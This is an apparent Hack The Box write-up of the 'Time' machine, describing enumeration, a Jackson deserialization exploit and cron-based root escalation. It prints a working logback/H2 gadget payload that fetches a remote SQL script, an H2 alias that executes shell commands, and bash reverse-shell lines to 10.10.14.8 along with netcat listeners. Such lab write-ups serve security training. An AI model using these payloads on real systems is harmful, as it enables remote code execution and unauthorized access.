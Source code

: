 ```yaml
---
coverY: 0
---
```


# 📦 HTB: Time – Deserialization, Java Shenanigans & Root in Style

<figure><img src="../.gitbook/assets/ChatGPT Image Jun 2, 2025, 09_27_03 AM.png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
_This medium-difficulty HTB box was a great lesson in one thing:_\
**Read the damn error. Then research it like your shell depends on it.**
{% endhint %}

### 🧭 Enumeration

#### 🔍 Nmap Scan

As always, I began with a full enumeration sweep:

```
nmap -Pn -n -A --reason -vvv -oN nmap/00-basic.txt -iL target.txt
```

**Findings:**

* **Port 22**: OpenSSH 8.2p1 (Ubuntu)
* **Port 80**: Apache 2.4.41 hosting a web server titled _"Online JSON Parser"_

### 🕸 Recon

The website was a **JSON beautifier** — harmless-looking, but CTFs don’t give you port 80 unless they want you to do _evil developer things_.

I ran `hakrawler` to check for juicy endpoints:

```
cat url.txt | hakrawler -proxy http://localhost:8080 -subs -d 5 -insecure -s -json >hakrawler.json
```

No admin panel. No hidden paths. But what caught my eye was how it **handled malformed JSON**...

### 💥 Exploitation – Jackson Deserialization RCE

Normal JSON works:

<figure><img src="../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

```
{"test":"hello"}
```

But malformed input returned this beauty:![](<../.gitbook/assets/ChatGPT Image Jun 2, 2025, 09_27_03 AM.png>)

> `Unhandled Java exception: com.fasterxml.jackson.databind.exc.MismatchedInputException`

> _Expected START\_ARRAY, got START\_OBJECT…_\
> &#xNAN;_"need JSON Array to contain As.WRAPPER\_ARRAY type information..."_

**Boom. Jackpot.**\
That’s **Jackson Deserialization**.



<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I dug into this article that became my savior:\
🔗 [https://blog.doyensec.com/2019/07/22/jackson-gadgets.html](https://blog.doyensec.com/2019/07/22/jackson-gadgets.html)

#### 🧪 Payload Time

```
["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://10.10.14.8:8000/inject.sql'"}]
```

* 📄 `inject.sql` – Weaponized

```
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
	String[] command = {"bash", "-c", cmd};
	java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
	return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('bash -i >& /dev/tcp/10.10.14.8/4444 0>&1')
```

```
nc -lvnp 4444
```

<figure><img src="../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

💥 **Reverse shell obtained!**

### 🧍 Local Privilege Escalation – Timer Shenanigans

After running `linpeas`, I found something gold:

* /usr/bin/timer\_backup.sh run as root every 10 seconds

```
echo "bash -i >& /dev/tcp/10.10.14.8/9000 0>&1" > /usr/bin/timer_backup.sh
```

```
nc -lvnp 9000
```

📈 Got root. Simple, clean, and elegant.

{% embed url="https://www.hackthebox.com/achievement/machine/409699/286" %}

## References

* https://github.com/lorenzodegiorgi/jackson-vulnerability
* https://github.com/FasterXML/jackson/wiki/Jackson-Polymorphic-Deserialization-CVE-Criteria
* https://adamcaudill.com/2017/10/04/exploiting-jackson-rce-cve-2017-7525/
* https://www.youtube.com/watch?v=uS37TujnLRw
* https://blog.doyensec.com/2019/07/22/jackson-gadgets.html

## 🧠 Final Thoughts

What made **HTB: Time** stand out wasn’t the difficulty of the exploit. It was the **importance of interpreting Java errors and knowing what to Google.**

➡️ _Lesson:_ Sometimes the error **is** the clue.

This box was a smooth ride with:

* 🔍 Deep Java debugging
* 🧬 Deserialization abuse
* 📅 Scheduled script escalation

And that's a wrap! Time box — rooted. ✅
